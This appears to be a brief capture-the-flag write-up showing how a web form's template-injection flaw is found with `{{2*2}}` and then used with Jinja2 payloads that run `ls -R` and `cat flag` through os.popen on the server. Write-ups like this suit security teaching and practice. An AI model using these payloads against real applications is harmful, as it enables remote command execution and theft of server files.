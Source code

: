 # SSTI

## identifying vulnerability

we are welcomed by a form that ask for input

![image](../../Assets/11-1.png)

if we input something like `{{2*2}}` we get the result

![image](../../Assets/11-2.png)

this means the input is vulnerable to SSTI

## Exploiting the vulnerability

we can use this to read files in the server

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

![image](../../Assets/11-4.png)

we can see that there is a file named flag, we can read it using

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

![image](../../Assets/11-3.png)

and we get the flag